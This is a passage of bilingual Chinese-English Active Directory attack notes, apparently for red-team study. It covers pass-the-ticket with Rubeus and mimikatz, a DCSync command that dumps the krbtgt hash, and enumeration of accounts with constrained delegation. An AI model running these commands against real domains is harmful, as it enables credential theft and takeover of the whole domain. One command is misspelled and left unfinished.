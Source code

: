 1. 使用Rubeus ptt
```
Rubeus.exe ptt /tikcet:
```

2. 使用mimikatz ptt

制作票据
```
[IO.File]::WriteAllBytes("C:\AD\Tools\USDC.kirbi",
[Convert]::FromBase64String("ticket_from_Rubeus_monitor"))
```
ptt
```
Invoke-Mimikatz -Command '"kerberos::ptt C:\AD\Tools\USDC.kirbi"'
```

3. DCSync
```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:us\krbtgt"'
```

# Constrained Delegation（约束委派）

 Allows access only to specified services on specified computers as a user.（只允许以用户身份访问指定计算机上的指定服务）

• To impersonate the user, Service for User (S4U) extension is used which provides two extensions:（为了模拟用户，使用 Service for User (S4U) 扩展，它提供了两个扩展）

− Service for User to Proxy (S4U2proxy) - Allows a service to obtain a TGS to a second service (controlled by SPNs on msDs-AllowedToDelegateTo) on behalf of a user.（用户到代理服务 (S4U2proxy) - 允许服务代表用户获取第二个服务的 TGS（由 msDs-AllowedToDelegateTo 上的 SPN 控制）

− Service for User to Self (S4U2self) - Allows a service (must have TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION) to obtain a forwardable TGS to itself on behalf of a user (no actual Kerberos authentication by user takes place). Used in Protocol Transition i.e. when user authenticates with non-Kerberos authentication.（Service for User to Self (S4U2self) - 允许服务（必须具有 TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION）代表用户获取可转发的 TGS 给自己（用户不会进行实际的 Kerberos 身份验证）。 用于协议转换，即当用户使用非 Kerberos 身份验证进行身份验证时）





• SeEnableDelegation privileges are needed to configure Constrained Delegation.（配置约束性授权需要SeEnableDelegation权限）

• Two ways to configure constrained delegation:（有两种方法可以配置约束性委托。）

- Kerberos only: Kerberos authentication is needed for the service to delegate.（仅限Kerberos。服务需要Kerberos认证来进行委托。）

- Protocol transition: Regardless of authentication the service can delegate.（协议转换。无论认证如何，服务都可以进行委托。）


## 枚举

使用PowerView
```
Get-DomainUser –TrustedToAuth

Get-DomainComputer –TrustedToAuth
```
